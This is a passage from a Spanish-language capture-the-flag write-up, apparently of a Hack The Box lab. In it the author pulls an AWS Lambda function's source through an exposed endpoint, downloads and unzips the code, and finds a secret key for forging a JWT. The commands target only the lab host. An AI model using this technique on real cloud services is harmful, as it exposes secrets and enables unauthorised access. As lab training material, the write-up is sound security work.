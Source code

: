 Entre las opciones disponibles también es posible obtener el código fuente de la función, para eso usamos la opción `get-function`. En la respuesta obtenemos un enlace que nos permite descargar un archivo zip con el código fuente.
```SHELL
└─$ aws lambda get-function --function-name "costume_shop_v1" --endpoint-url "http://cloud.epsilon.htb"
{
    "Configuration": {
        "FunctionName": "costume_shop_v1",
        "FunctionArn": "arn:aws:lambda:us-east-1:000000000000:function:costume_shop_v1",
        "Runtime": "python3.7",
        "Role": "arn:aws:iam::123456789012:role/service-role/dev",
        "Handler": "my-function.handler",
        "CodeSize": 478,
        "Description": "",
        "Timeout": 3,
        "LastModified": "2022-09-15T04:27:49.044+0000",
        "CodeSha256": "IoEBWYw6Ka2HfSTEAYEOSnERX7pq0IIVH5eHBBXEeSw=",
        "Version": "$LATEST",
        "VpcConfig": {},
        "TracingConfig": {
            "Mode": "PassThrough"
        },
        "RevisionId": "d342c387-f0a9-426b-8fc4-0881bd471b35",
        "State": "Active",
        "LastUpdateStatus": "Successful",
        "PackageType": "Zip"
    },
    "Code": {
        "Location": "http://cloud.epsilon.htb/2015-03-31/functions/costume_shop_v1/code"
    },
    "Tags": {}
}
└─$ wget http://cloud.epsilon.htb/2015-03-31/functions/costume_shop_v1/code -O lambda_archive.zip      
--2022-09-15 00:51:33--  http://cloud.epsilon.htb/2015-03-31/functions/costume_shop_v1/code                         
Resolving cloud.epsilon.htb (cloud.epsilon.htb)... 10.10.11.134              
Connecting to cloud.epsilon.htb (cloud.epsilon.htb)|10.10.11.134|:80... connected.        
HTTP request sent, awaiting response... 200                   
Length: 478 [application/zip]              
Saving to: ‘lambda_archive.zip’                                                                                                            
lambda_archive.zip                              100%[====================================================================================================>]     478  --.-KB/s    in 0.1s         
2022-09-15 00:51:34 (4.88 KB/s) - ‘lambda_archive.zip’ saved [478/478] 
└─$ unzip lambda_archive.zip 
Archive:  lambda_archive.zip
  inflating: lambda_function.py  
```
Al revisar el código fuente encontramos la llave secreta que necesitamos para poder crear nuestro jwt.
